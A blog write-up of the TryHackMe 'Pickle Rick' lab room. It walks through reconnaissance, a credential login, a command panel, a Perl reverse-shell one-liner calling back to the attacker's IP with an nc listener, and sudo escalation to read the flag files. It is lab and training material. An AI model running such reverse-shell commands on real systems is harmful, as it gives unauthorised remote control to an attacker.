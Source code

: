 ```yaml
---
tagline: picklerick
title: Pickle Rick | Writeup
description: An extra-fun web server exploitation room
banner: /blog/picklerickbanner.jpeg/
banner_alt: Information is power. But like all power, there are those who want to keep it for themselves. -Aaron Swartz
date: '2024-03-10'
---
```


## 📡 NMAP Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.108.226
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 21:47 EST
Nmap scan report for 10.10.108.226
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

- Port 22 & 80 are open.

## 🌐 Accessing the website

- Since port 80 is open, we know there is a website. Let's check it out!

![Image showing the website](/blog/picklerick/website.png 'Fig.1')

- Judging by the blatent hint, we need to use Burpsuite.

## 🟧🔎 Burpsuite & Dirsearch

![Image showing a comment](/blog/picklerick/secretcomment.png 'Fig.2')

- In the source code, I found a comment with a username. That may be useful in the future.

- Since we have no leads to follow, lets run Dirsearch.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ dirsearch -u http://10.10.108.226 --exclude-status 403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/http_10.10.108.226/_24-03-09_23-40-12.txt

Target: http://10.10.108.226/

[23:40:12] Starting:                                                                                  
[23:40:36] 200 -  588B  - /assets/                                          
[23:40:36] 301 -  315B  - /assets  ->  http://10.10.108.226/assets/
[23:40:53] 200 -  455B  - /login.php                                        
[23:41:03] 200 -   17B  - /robots.txt                                       
                                                                             
Task Completed
```

## Aquiring the Ingredients

- Lets look at */robots.txt* first.

![Image showing robots.txt](/blog/picklerick/robotstxt.png 'Fig.3')

- Oh! Lets just keep that text for future reference though.

- We should also take a look at */login.php* as that is the only page that would help us find stuff.

![Image showing login page](/blog/picklerick/login.png 'Fig.4')

- We know the username is *R1ckRul3s*, what if we try the text we found in */robots.txt*?

![Image showing us logged in](/blog/picklerick/loggedin.png 'Fig.5')

- AND IT WORKED!!!! It seems like we get a Command Panel, lets run some commands to get some ingredients.

- Running ```ls``` gives us this (seen in Fig.6 below)

![Image showing me running ls](/blog/picklerick/ls.png 'Fig.6')

- Now we know we can run commands like this, let's get the first ingredient first!

![Image showing it not letting me](/blog/picklerick/commandissue.png 'Fig.7')

- Welp, we might have to first spawn a reverse shell (I will be using [revshells.com](https://www.revshells.com/))

```bash:Command\ Panel
# below is the reverse shell i used

perl -e 'use Socket;$i="10.6.22.229";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.6.22.229] from (UNKNOWN) [10.10.108.226] 35408
sh: 0: can't access tty; job control turned off
$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

- Now to get the second ingredient

```bash:Terminal
$ pwd
/home/rick
$ cat second\ ingredients
1 jerry tear
$ 
```

- Running ```sudo -l``` told me I could run anything as long as I use sudo. Lets get the Final Ingredient

```bash:Terminal
$ sudo ls root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
$ 
```

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
